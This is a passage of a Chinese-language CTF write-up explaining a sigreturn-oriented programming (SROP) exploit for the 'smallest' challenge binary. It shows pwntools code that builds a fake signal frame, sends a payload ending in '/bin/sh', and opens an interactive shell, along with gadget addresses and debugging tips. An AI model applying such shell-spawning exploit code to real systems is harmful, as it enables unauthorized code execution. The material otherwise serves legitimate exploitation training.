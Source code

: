 ```
sigframe.rip = syscall_ret

frame_payload = p64(start_addr) + 'b' * 8 + str(sigframe)

print len(frame_payload)

payload = frame_payload + (0x120 - len(frame_payload)) * '\x00' + '/bin/sh\x00'

sh.send(payload)

raw_input()

sh.send(sigreturn)

sh.interactive()
```

首先说，我在这段利用代码里放了很多raw_input()，就是为了在每次send一段字符串进去后，停住，看看内存当前是什么状态，读者在执行的时候，记得把所有raw_input()，以及最上面的gdb.attach(sh)代码注释掉，才不会卡住。

第一段

```
from pwn import *

from LibcSearcher import *

small = ELF('./smallest')

if args['REMOTE']:

 sh = remote('127.0.0.1', 7777)

else:

 sh = process('./smallest')

context.arch = 'amd64'

context.log_level = 'debug'

syscall_ret = 0x00000000004000BE

start_addr = 0x00000000004000B0
```

例行公事的代码不说了，syscall_ret这个gadget刚好在0x4000BE的位置，start_addr指的是0x4000B0程序的起始位置，每次跳到这里，就会再次执行一遍read操作。具体对应地址，参考下图

[![](https://p3.ssl.qhimg.com/t017013acc2698845b6.jpg)](https://p3.ssl.qhimg.com/t017013acc2698845b6.jpg)

接下来一段代码
